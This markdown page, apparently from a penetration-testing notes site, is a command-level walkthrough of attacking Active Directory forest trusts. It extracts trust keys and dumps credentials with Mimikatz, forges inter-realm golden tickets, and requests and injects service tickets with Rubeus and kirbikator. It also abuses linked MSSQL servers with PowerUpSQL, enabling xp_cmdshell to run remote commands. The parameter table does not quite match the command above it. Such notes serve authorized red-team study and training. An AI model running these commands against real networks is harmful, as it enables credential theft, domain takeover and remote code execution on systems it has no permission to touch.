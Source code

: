 ```yaml
---
title: Cross Forest Attacks
category: Active Directory
order: 6
---
```


In this section we are going to abuse trusts between forests.

# Across Forests using Trust Tickets

First we need to retrieved the Trust Key:

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

> **Note**: The access we will have will be limited to what our DA account is configured to have on the other Forest!

An **inter-realm TGT** can be forged:

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /rc4:cd3fb1b0b49c7a56d285fffdd1399231 /service:krbtgt /target:extcorp.local /ticket:C:\temp\trust_forest_tkt.kirbi"'
```
* **Invoke-Mimikatz**

|                   **Parameter**                   |                 **Description**                |
|:-------------------------------------------------:|:----------------------------------------------:|
| /domain:sub.corp.local                            | Current Domain FQDN                            |
| /sid:S-1-5-21-268341927-4156873456-1784235843     | Current Domain SID                             |
| /sids:S-1-5-21-280534878-1496970234-700767426-519 | SID of Enterprise Admins group (Parent Domain) |
| /user:Administrator                               | User to impersonate                            |
| /krbtgt:a9b30e5b0dc865eadcea9411e4ade72d          | krbtgt hash of Current Domain                  |
| /tiket:C:\Windows\Temp\trust_tkt.kirbi            | File to store the ticket                       |



Now we can request a TGS for `cifs` service on the dc of the trusted forest.

* Asktgs.exe (kekeo_old)

```powershell
.\asktgs.exe c:\temp\trust_forest_tkt.kirbi CIFS/dc01.extcorp.local
```

* Rubeus.exe
```powershell
.\Rubeus.exe asktgs /ticket:trust_forest_tkt.kirbi /dc:dc01.extcorp.local /service:CIFS/dc01.extcorp.local
```

And inject the ticket on the current session:

```powershell
.\kirbikator.exe lsa .\CIFS.dc01.extcorp.local.kirbi
```
> **Note**: We can not list all the file system of other forest. We can only list shared folders.

```
ls \\dc01.extcorp.local\share\
```

# Trust Abuse with MSSQL Server

MSSQL Servers are generally deployed in plenty windows domain. SQL Servers provide very good options for lateral movement as domain users can be mapped to dabase roles.

A fantastic tool to abuse MSSQL is `PowerUpSQLl`: 

* [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
```powershell
Import-Module .\PowerUpSQL.psd1
```

> **Note**: Important! Write `Import-Module` and import which have **PSD1** extension.

We can discover SQL servers:

```powershell
Get-SQLInstanceDomain
```

We can check accessibility:

```powershell
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```
Gather information:

```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## Database Links

A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of databases links between Microsoft SQL Servers, it is possible to execute stored procedures which means RCE.

Database link works even across forest trusts.

```powershell
Get-SQLServerLink -Instance mssql.corp.local -Verbose
```

So we can execute queries on the remote Server Link, see if this server has others links and above, instead of doing it manually that will be explained in a note, exists a script that crawls all the mssql server links.

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Verbose
```

> **Note**: Manual way:
>
> See if has a server link:
> `select * from master..sysservers`
>
> Openquery() function can be used to run quieries on a linked database:
> `select * from openquery("CORP-SQL1", 'select * from master..sysservers')`
>
> `select * from openquery("CORP-SQL1", ''select * from openquery("CORP-SQL2", 'master..sysservers'')')`

To execute commands from MSSQL server we need to use `xp_cmdshell`. If `rpcout` is enabled `xp_cmdshell` can be enabled using:

```
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "other-sql"
```

And finally:

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Query "exec master..xp_cmdshell 'whoami'"
```